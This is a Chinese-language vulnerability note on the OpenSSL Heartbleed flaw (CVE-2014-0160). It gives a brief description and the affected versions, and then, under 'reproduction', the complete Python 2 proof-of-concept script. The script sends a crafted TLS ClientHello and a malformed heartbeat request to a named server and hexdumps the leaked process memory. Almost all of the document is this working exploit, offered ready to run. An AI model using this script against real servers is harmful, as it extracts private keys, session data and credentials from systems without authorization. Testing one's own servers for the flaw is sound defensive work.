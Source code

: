 （CVE-2014-0160）OpenSSL 心脏出血漏洞
=====================================

一、漏洞简介
------------

Heartbleed漏洞，这项严重缺陷(CVE-2014-0160)的产生是由于未能在memcpy()调用受害用户输入内容作为长度参数之前正确进行边界检查。攻击者可以追踪OpenSSL所分配的64KB缓存、将超出必要范围的字节信息复制到缓存当中再返回缓存内容，这样一来受害者的内存内容就会以每次64KB的速度进行泄露。

二、漏洞影响
------------

OpenSSL 1.0.2-betaOpenSSL 1.0.1 -- OpenSSL 1.0.1f

三、复现过程
------------

### poc

![15896120731.jpg](./.resource/(CVE-2014-0160)OpenSSL心脏出血漏洞/media/rId25.jpg)

    #!/usr/bin/python

    # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
    # The author disclaims copyright to this source code.

    import sys
    import struct
    import socket
    import time
    import select
    import re
    from optparse import OptionParser

    options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
    options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

    def h2bin(x):
        return x.replace(' ', '').replace('\n', '').decode('hex')

    hello = h2bin('''
    16 03 02 00  dc 01 00 00 d8 03 02 53
    43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
    bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
    00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
    00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
    c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
    c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
    c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
    c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
    00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
    03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
    00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
    00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
    00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
    00 0f 00 01 01                                  
    ''')

    hb = h2bin(''' 
    18 03 02 00 03
    01 40 00
    ''')

    def hexdump(s):
        for b in xrange(0, len(s), 16):
            lin = [c for c in s[b : b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time() 
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            if s in r:
                data = s.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata
            

    def recvmsg(s):
        hdr = recvall(s, 5)
        if hdr is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        typ, ver, ln = struct.unpack('>BHH', hdr)
        pay = recvall(s, ln, 10)
        if pay is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return typ, ver, pay

    def hit_hb(s):
        s.send(hb)
        while True:
            typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
                if len(pay) > 3:
                    print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False

    def main():
        opts, args = options.parse_args()
        if len(args) < 1:
            options.print_help()
            return

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print 'Connecting...'
        sys.stdout.flush()
        s.connect((args[0], opts.port))
        print 'Sending Client Hello...'
        sys.stdout.flush()
        s.send(hello)
        print 'Waiting for Server Hello...'
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break

        print 'Sending heartbeat request...'
        sys.stdout.flush()
        s.send(hb)
        hit_hb(s)

    if __name__ == '__main__':
        main()
